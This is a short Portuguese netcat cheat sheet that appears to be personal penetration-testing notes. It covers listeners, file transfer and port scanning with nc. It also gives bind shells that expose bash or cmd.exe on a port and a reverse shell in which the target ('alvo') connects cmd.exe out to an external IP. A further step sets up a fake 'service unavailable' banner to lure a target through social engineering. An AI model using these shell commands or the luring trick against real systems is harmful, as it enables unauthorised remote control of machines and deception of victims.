 #### netcat

nc -vlp 5050 - abrir porta TCP e ficar ouvindo a mesma.
nc -vnlup 5050 - abrir porta UDP e ficar ouvindo a mesma.

nc -vlup 5050 -e /bin/bash - abrir porta com BASH para ser utilizado.
nc -vlup 5050 -e CMD.exe - abrir porta com o PROMPT para ser utilizado.

nc -vnu 192.168.10.116 6060 - conectando na porta UDP
nc -v 192.168.10.116 5005 - conectando na porta TCP

Servidor escutar habilitando tranferência de arquivos via NetCat
-----------------------------------------------------------------

nc -lvp 1234 > netcatfile ( Servidor que está escutando na porta 1234, tem a transferencia de arquivos habilitada )

nc 192.168.10.110 1234 < arquivo.txt ( Client enviando o arquivo.txt para o servidor que está escutando na porta 1234 )


--------


server = nc -vlp 3000

alvo = nc 187.114.22.246 3000 -e C:\\Windows\\system32\\cmd.exe


---


- Pegar informações usando EngSoc. Primeiro criar um serviço na porta 80.

		nc -vlnp 80

- Ou criar um serviço com um Banner para enganar o alvo. (Ex:Server fora do ar)
	
		echo "Serviço temporariamente indisponivel" > banner
		cat banner
		nc -vlnp 80 < banner

fazer o alvo acessar um link que cai no IP externo de onde a porta 80 esta aberta.
	
		200.177.200.3:80


---



#### Port Scanning com netcat


- Verificar se a porta de um determinado host está aberta

		nc -vnz 192.168.101.103 3306

		nc -vnz teste.com.br 80

		nc -vnz teste.com.br 80